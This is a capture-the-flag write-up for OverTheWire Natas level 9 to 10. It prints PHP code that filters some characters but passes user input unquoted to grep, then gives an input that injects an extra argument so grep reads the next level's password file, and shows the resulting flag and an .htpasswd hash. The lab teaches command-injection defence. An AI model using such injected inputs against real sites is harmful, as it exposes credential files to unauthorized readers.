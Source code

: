 # Natas Level 9 → Level 10 Command Injection w/ some filter

## Previous Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Goal
Username: natas10<br>
URL: http://natas10.natas.labs.overthewire.org<br>

For security reasons, we now filter on certain characters<br>
Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
Since relied on passthru w/ grep can still search
```

## Solution
```
Click View source code
http://natas10.natas.labs.overthewire.org/index-source.html 

<div id="content">
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) { 👀
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

Find words containing: .* /etc/natas_webpass/natas11 # ⌨️
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$tmwSSiSr$r/7J.9AX6rzxuvTp4BntO1
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk 🔐
```

## Flag
<b>UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk</b>

## Continue
[Continue](/overthewire/Natas1011.md)